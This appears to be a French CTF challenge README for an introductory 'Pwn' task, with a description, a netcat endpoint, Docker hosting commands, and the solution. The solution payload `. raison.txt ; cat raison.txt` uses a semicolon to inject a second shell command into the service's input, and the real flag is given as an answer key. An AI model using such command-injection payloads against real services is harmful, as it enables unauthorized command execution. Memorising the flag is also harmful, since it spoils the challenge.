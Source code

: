 # La liste (INTRO)

## Auteur(s)
`Senkei`

## Catégorie
`Pwn`

## Description:
Les enseignants de ton université veulent se débarrasser de toi. Trouve la raison pour prouver que tu n'as rien fait !

`nc 161.35.21.37 40011`

**Flag** : `UHOCTF{Fake_flag}`

---

## Solution

Voici mon payload :)

```text
. raison.txt ; cat raison.txt

```

**Flag** - `UHOCTF{N0n_J3_RigolE_Tu_Peux_Resterehe}`

## Hosting

```bash
sudo docker build -t laliste .
sudo docker network create -d bridge laliste
```

The command to start the challenge is:

```bash
sudo docker run -p 40011:40011 --detach --name laliste --network laliste laliste:latest
```

The command to stop the challenge (since CTRL+C won't work) is:

```bash
sudo docker stop laliste
```

